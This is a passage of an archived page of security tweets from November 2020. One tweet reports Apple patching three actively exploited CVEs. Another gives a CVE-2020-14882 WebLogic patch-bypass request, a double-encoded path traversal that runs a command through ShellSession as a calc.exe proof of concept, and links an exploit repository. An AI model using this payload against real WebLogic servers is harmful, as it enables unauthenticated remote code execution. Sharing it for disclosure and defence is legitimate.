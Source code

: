 <table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>455</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1324422885830610944 _at 2020-11-05, 18:46:37_**
<blockquote>
Apple have fixed three issues reported by Project Zero that were being actively exploited in the wild. CVE-2020-27930 (RCE), CVE-2020-27950 (memory leak), and CVE-2020-27932 (kernel privilege escalation). The security bulletin is available here: https://t.co/4OIReajIp6
</blockquote>

* https://support.apple.com/en-us/HT211929

<table><tr>
<td>Quotes: <code>144</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>404</code></td>
<td>Favorites: <code>931</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1324258040686669824 _at 2020-11-05, 07:51:35_**
<blockquote>
CVE-2020-14882
Weblogic RCE by only one GET reques

#bypass patch 

POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
...
...
_nfpb=true&amp;_pageLabel=&amp;handle=https://t.co/1P6ayf6Arf.ShellSession("java.lang.Runtime.getRuntime().exec('calc.exe');");

https://t.co/SkNAFJi8Dw https://t.co/D1zKwr5W0D
</blockquote>

* http://com.tangosol.coherence.mvel2.sh
* https://github.com/jas502n/CVE-2020-14882

<table><tr>